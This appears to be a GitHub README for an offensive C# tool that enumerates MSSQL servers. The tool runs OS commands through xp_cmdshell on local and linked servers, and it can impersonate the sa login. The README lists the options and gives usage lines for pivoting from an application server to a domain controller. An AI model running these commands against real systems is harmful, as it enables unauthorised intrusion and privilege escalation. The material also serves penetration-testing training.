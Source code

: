 # SQLinkedCodeExec

![image](https://user-images.githubusercontent.com/57995347/164911965-bc2c290e-f2ad-446b-a030-a3fb2910f52e.png)


This is an Offensive C# Tool that performs the following:
- basic enumeration on MSSQL server(s)
- execute commands on the backend OS hosting the MSSQL server(s)

The tool accepts user supplied credentials or leverages the access token of the logged-on user

```
SQLinkedCodeExec.exe /t <target> /user <username> /pass <password>  <command-to-run>
```

Options:
```
/codexec - executes specified code on MSSQL servers
/impersonate - impersonates sa user on MSSQL server
/imp_db - specifies the database for impersonation e.g. msdb. This must be used with imp_user
/imp_user - impersonates specified login on a MSSQL server e.g. sa
/localexec - enables code execution via xp_cmdshell on local MSSQL server
/link1exec - enables code execution via xp_cmdshell on single hop linked MSSQL - Link 1
/link2exec - enables code execution via xp_cmdshell on double hop linked MSSQL - Link 2
/lnk - determines if the target MSSQL server has any linked servers
/lnkedt - specifies the linked server connected to our target MSSQL - Link 1
/lnkedtt - specifies the double linked server connect to our target MSSQL - Link 2
/lnkedtcheck1 - enumerates linked server  - Link 1
/lnkedtcheck2 - enumerates double linked server  - Link 1
/pass - specifies password to use
/t - specifies the target MSSQL server
/syscreds - ignores the user specified and uses the token of the currently logged in user
/user - specifies the target user account
```

Usage:
```
SQLinkedCodeExec.exe /t <target> /user <username>  /pass <password>  <command-to-run>

Usage: Examples:"
SQLinkedCodeExec.exe /?  - show's this help menu \n"

//Authenticate to target MSSQL with username and password"
SQLinkedCodeExec.exe /t <target name or IP> /user <username> /pass <password"

//Authenticate to target MSSQL with current system token"
SQLinkedCodeExec.exe /t <target name or IP> /user <username> /pass <password> /syscreds true"

//Execute Code on target MSSQL server "
SQLinkedCodeExec.exe /t <target name or IP> /user <username> /pass <password> /localexec true /codexec < Whatever - command - goes - here > "

//Check if target MSSQL server has any server links"
SQLinkedCodeExec.exe /t <target name or IP>  /syscreds true /lnk true"

//Execute Code on linked MSSQL server instance (appsrv01) - Link 1"
SQLinkedCodeExec.exe /t <target name or IP>  /syscreds true  /link1exec true /lnkedt appsrv01 /codexec <powershell - enc...>"

//Impersonate sa account and execute Code on linked MSSQL server instance (appsrv01) - Link 1"
SQLinkedCodeExec.exe /t <target name or IP> /syscreds true /lnk true /impersonate true /imp_user sa /imp_db msdb /codexec <powershell - enc>"

//Enumerate linked MSSQL server (appsrv01) for additional links to other instances - Link 1"
SQLinkedCodeExec.exe /t <target name or IP> /syscreds true /lnkedt appsrv01 /lnkedtcheck1 true"

//Checked double linked server (dc01) for the user we are operating as - Link 1"
SQLinkedCodeExec.exe /t <target name or IP> /syscreds true  /lnkedt appsrv01 /lnkedtt dc01 /lnkedtcheck2 true"

//Execute code on double linked server (dc01)"
SQLinkedCodeExec.exe /t dc01 /user someguy /pass somepass /syscreds true /lnk true  /link2exec true /lnkedt appsrv01 /lnkedtt dc01 /codexec <powershell - enc....>"
```


# Credits
- Heavily inspired by and leveraged code from "[chvancooten's Code Snippets](https://github.com/chvancooten/OSEP-Code-Snippets)" 
